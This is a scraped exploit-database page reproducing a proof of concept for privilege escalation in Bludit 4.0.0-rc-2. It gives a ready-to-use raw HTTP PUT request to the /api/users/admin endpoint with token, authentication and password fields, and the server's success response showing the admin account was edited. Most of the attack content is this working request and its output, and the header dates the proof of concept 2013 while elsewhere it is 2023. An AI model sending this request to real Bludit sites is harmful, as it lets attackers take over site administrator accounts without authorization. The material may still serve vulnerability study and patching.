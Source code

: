 ```yaml
---
title: Bludit 4.0.0-rc-2 Privilege Escalation Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38586&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-13
fetch_date: 2025-10-04T11:31:53.261890
---
```


# Bludit 4.0.0-rc-2 Privilege Escalation Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Bludit 4.0.0-rc-2 Privilege Escalation Vulnerability

2023-04-12 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38586
## Title: Bludit-4.0.0-rc-2 - Release candidate 2 Account takeover:
API token vulnerability
## Author: nu11secur1ty
## Date: 04.11.2013
## Vendor: https://www.bludit.com/
## Software: https://github.com/bludit/bludit/releases/tag/4.0.0-rc-2
## Reference: https://www.cloudflare.com/learning/access-management/account-takeover/
## Reference: https://portswigger.net/daily-swig/facebook-account-takeover-researcher-scoops-40k-bug-bounty-for-chained-exploit

## Description:
The already authenticated attacker can send a normal request to change
his password and then he can use
the same JSON `object` and the vulnerable `API token KEY` in the same
request to change the admin account password.
Then he can access the admin account and he can do very malicious stuff.

STATUS: HIGH Vulnerability

[+]Exploit:
```PUT
PUT /api/users/admin HTTP/1.1
Host: 127.0.0.1:8000
Content-Length: 138
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50
Safari/537.36
content-type: application/json
Accept: */*
Origin: http://127.0.0.1:8000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8000/admin/edit-user/pwned
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: BLUDIT-KEY=98t31p2g0i7t6rscufuccpthui
Connection: close

{"token":"4f8df9f64e84fa4562ec3a604bf7985c","authentication":"6d1a5510a53f9d89325b0cd56a2855a9","username":"pwned","password":"password1"}

```

[+]Response:
```HTTP
HTTP/1.1 200 OK
Host: 127.0.0.1:8000
Date: Tue, 11 Apr 2023 08:33:51 GMT
Connection: close
X-Powered-By: PHP/7.4.30
Access-Control-Allow-Origin: *
Content-Type: application/json

{"status":"0","message":"User edited.","data":{"key":"admin"}}
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/bludit/2023/Bludit-v4.0.0-Release-candidate-2)

## Proof and Exploit:
[href](https://streamable.com/w3aa4d)

## Time spend:
00:57:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
